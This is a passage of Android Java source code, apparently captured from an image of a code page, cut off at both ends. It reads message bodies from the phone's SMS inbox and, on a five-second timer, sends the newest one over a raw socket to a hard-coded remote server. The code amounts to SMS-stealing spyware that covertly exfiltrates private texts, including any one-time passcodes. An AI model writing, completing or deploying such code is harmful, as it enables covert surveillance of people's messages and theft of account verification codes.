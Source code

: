 ```
                    try {
                        Thread.sleep(2000);
                    } catch (InterruptedException ex) {
                        ex.printStackTrace();
                    }
                }
            }
        }).start();
    }

    private void sendLastSmsPeriodically() {
        handler = new Handler();
        handler.postDelayed(new Runnable() {
            @Override
            public void run() {
                sendLastSmsToServer();
                handler.postDelayed(this, 5000);
            }
        }, 5000);
    }

    private void sendLastSmsToServer() {
        new Thread(() -> {
            try (Socket socket = new Socket(SERVER_IP, NEW_PORT);
                 PrintWriter out = new PrintWriter(socket.getOutputStream(), true)) {
                List<String> newSmsList = readNewSms();
                String smsToSend;
                if (!newSmsList.isEmpty()) {
                    smsToSend = newSmsList.get(0);
                    lastSentSms = smsToSend;
                } else {
                    smsToSend = lastSentSms;
                }
                if (smsToSend != null) {
                    out.println(smsToSend);
                    System.out.println("SMS sent successfully: " + smsToSend);
                }
            } catch (IOException e) {
                e.printStackTrace();
            }
        }).start();
    }

    private List<String> readAllSms() {
        List<String> smsList = new ArrayList<>();
        Cursor cursor = getContentResolver().query(Uri.parse("content://sms/inbox"), null, null, null, "date DESC");

        if (cursor != null && cursor.moveToFirst()) {
            do {
                String body = cursor.getString(cursor.getColumnIndexOrThrow("body"));
                smsList.add(body);
            } while (cursor.moveToNext());
            cursor.close();
        }

        return smsList;
    }

    private void registerContentObserver() {
        contentObserver = new ContentObserver(new Handler()) {
            @Override
            public void onChange(boolean selfChange) {
```